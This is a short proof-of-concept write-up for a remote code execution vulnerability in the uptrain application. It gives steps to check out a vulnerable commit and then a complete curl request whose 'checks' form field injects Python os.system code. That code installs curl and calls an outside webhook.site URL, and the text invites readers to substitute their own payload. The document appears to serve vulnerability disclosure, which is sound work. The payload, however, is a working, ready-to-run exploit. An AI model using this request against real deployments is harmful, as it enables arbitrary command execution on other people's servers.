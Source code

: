 # vulnerable instance setup
1. Install the vulnerable instance by running the following command:
```bash
git clone https://github.com/uptrain-ai/uptrain
cd uptrain
# for compatibility with the RCE vulnerability, checkout the commit that still has the vulnerability
git checkout a31cc14eddcb6c0b0b12cbed15f086d98c441c6f
bash run_uptrain.sh
```
open http://localhost:3000 in your browser.

## Exploiting the Vulnerability
To demonstrate the vulnerability, you can send an HTTP request to execute arbitrary code on the server.
### Example
The example payload below runs a shell command to update packages, install `curl`, and send a webhook request. you can replace `apt update && apt install curl -y && curl https://webhook.site/` with your own payload.

```bash
 curl 'http://localhost:4300/api/public/create_project' -H'uptrain-access-token: default_key' -H 'Content-Type: multipart/form-data; boundary=----WebKitFormBoundarysFz2W1h9iMH4IFs9'  --data-raw $'------WebKitFormBoundarysFz2W1h9iMH4IFs9\r\nContent-Disposition: form-data; name="model"\r\n\r\ngpt-3.5-turbo\r\n------WebKitFormBoundarysFz2W1h9iMH4IFs9\r\nContent-Disposition: form-data; name="project_name"\r\n\r\nasdf\r\n------WebKitFormBoundarysFz2W1h9iMH4IFs9\r\nContent-Disposition: form-data; name="checks"\r\n\r\n__import__(\'os\').system(\'apt update && apt install curl -y && curl https://webhook.site/a1da66a1-0b5f-4f45-8481-60472e56a798
\')\r\n------WebKitFormBoundarysFz2W1h9iMH4IFs9\r\nContent-Disposition: form-data; name="dataset_name"\r\n\r\nasdf\r\n------WebKitFormBoundarysFz2W1h9iMH4IFs9\r\nContent-Disposition: form-data; name="data_file"; filename="test.jsonl"\r\nContent-Type: application/octet-stream\r\n\r\n\r\n------WebKitFormBoundarysFz2W1h9iMH4IFs9\r\nContent-Disposition: form-data; name="metadata"\r\n\r\n{"gpt-3.5-turbo":{"openai_api_key":"asdf"}}\r\n------WebKitFormBoundarysFz2W1h9iMH4IFs9--\r\n'
```
